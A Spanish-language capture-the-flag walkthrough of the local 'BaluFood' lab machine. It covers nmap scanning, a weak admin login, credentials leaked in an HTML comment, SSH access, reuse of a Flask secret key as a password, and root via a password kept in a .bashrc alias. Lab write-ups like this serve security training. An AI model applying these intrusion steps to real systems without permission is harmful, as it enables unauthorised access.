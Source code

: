 - Tags: #BaluFood
---
[Maquina BaluFood](https://mega.nz/file/PEc21IYa#tR9C-oqGJsnaWNE4Wsjs-V9S6qCCFJRTPOq0LwrrOco) -> Página web de un restaurante con data leakage y escalada de privilegios en linux con user pivoting.

```bash
7z x balufood.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh balufood.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina Linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-10000 # Realizamos descubrimiento de puertos
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts 
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
nmap -sC -sV -p22,5000 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos
```

**( 22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0) )** -> Tenemos un servicio **ssh** expueto
**( 5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2) )** -> Tenemos un servicio web de **python** expuesto posiblemente este **Flask** corriendo por detras.

### Fase Enumeracion Web:
```bash
whatweb http://172.17.0.2:5000 # Detectamos las tecnologias que emplea este servicio web
nmap -p 5000 --script http-enum 172.17.0.2 # Realizamos un script para enumerar rutas.
```

**( http://172.17.0.2:5000/ )** --> Accedemos al citio donde esta desplegada la web
**( http://172.17.0.2:5000/login )** --> Tenemos este panel de inicio de sesion que tiene una password debil

```bash
username: admin
password: admin
```

**( http://172.17.0.2:5000/admin )** --> Una ves logueados tenemos filtrada la informacion:

```bash
<!-- Backup de acceso: sysadmin:backup123 --> # Posibles credenciales
```

### Fase Intrusion:

```bash
ssh-keygen -R 172.17.0.2 && ssh sysadmin@172.17.0.2 # Password ( backup123 )
```

```bash
head app.py # Tenemos este archivo que contiene una cadena.

from flask import Flask, render_template, redirect, url_for, request, session, flash
import sqlite3
from functools import wraps

app = Flask(__name__)
app.secret_key = 'cuidaditocuidadin'
DATABASE = 'restaurant.db'

def get_db_connection():
    conn = sqlite3.connect(DATABASE)
```

```bash
grep "sh$" /etc/passwd # Viendo que tenemos al usario: balulero:x:1001:1001:balulero,,,:/home/balulero:/bin/bash

su balulero # Passamos la contrasena: ( cuidaditocuidadin )
```

```bash
.bashrc # Tenemos este archivo que revisamos, y contiene un alias para el usuario ( balulero )
ser-root # alias que contiene la password de root ( chocolate2 )
```

```bash
su root # ( chocolate2 )
```